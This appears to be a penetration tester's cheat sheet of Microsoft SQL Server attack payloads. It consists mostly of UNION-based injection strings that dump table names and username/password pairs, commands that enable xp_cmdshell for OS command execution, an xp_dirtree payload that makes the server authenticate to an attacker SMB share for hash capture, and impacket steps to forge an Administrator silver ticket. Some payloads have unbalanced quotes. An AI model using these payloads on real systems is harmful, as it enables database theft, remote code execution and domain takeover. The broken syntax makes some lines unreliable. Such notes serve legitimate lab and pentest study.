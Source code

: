 # MSSQL
## CLI
Get databases:
```
select name from sys.databases;
```
Get tables from the given database:
```
select TABLE_NAME from <DB-name>.INFORMATION_SCHEMA.TABLES;
```
Dump data from the table
```
select * from <db-name>..<table-name>;
```
```
select * from <db-name>.dbo.<table-name>;
```

## Injection
Get tables:
```
1' union select 1,name,id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Concat different things into one:
```
1' union select 1,concat(name,':',id),id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Instead of `GROUP_CONCAT` we use `string_agg`:
```
1' union select 1,(select string_agg(concat(name,':',id),|')),id,4,5,6 from <dbname>..sysobjects where xtype=u-- -
```
Getting columns:
```
1' union select 1,(select string_agg(name,'|')),id,4,5,6 from <tablename>..syscolumns where id=<table-id-that-we-get-above>-- -
```
Dump data:
```
1' union select 1,(select string_agg(concat(username,'/',password),|') from <db-name>..<table-name>),3,4,5,6-- -
```

Some useful variables:
```
@@version

# Current user
user

# Current DB
db_name()

# You can increase number
db_name(0)
db_name(1)
```

# Command Injection
## `xp_cmdshell`
If it is disabled: https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
EXEC xp_cmdshell 'whoami';
```

## Stacked Queries
Use it with responder. If it is system account you f*cked up! :D
```
500'; EXEC xp_dirtree '\\10.10.10.10\sharename\file';-- -
```



# `sqsh`

# Command Injection
```
xp_cmdshell "whoami"
go
```
If it doesn't work
```
enable xp_cmdshell
```

## Authenticate with Kerberos
- (Include Kerberos TGT - it is explained in `Active Directory.md`)
- Create TGT
```
impacket-gettgt domain.local/username:password
```
- Export TGT
```
export KRB5CCNAME=outputfilename.cache
```
- Verify it
```
klist
```
- Login MS SQL service
```
impacket-mssqlclient dc01.domain.local -k
```

## Creating Silver Ticket for Authentication
- Get user SID for gaining Domain SID
- You can get it via ldap (check ippsec Scrambled 21:00)
```
impacket-getpac adminsitrator domain.local/username:password
```
- Create ticket
```
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash <lowercase-ntlm-hash> -domain-sid <S-1-5-...> -domain scrm.local
```
- `500`: Administrator ID


- Add ticket
```
export KRB5CCNAME=Administrator.ccache
```
- Verify
```
klist
```
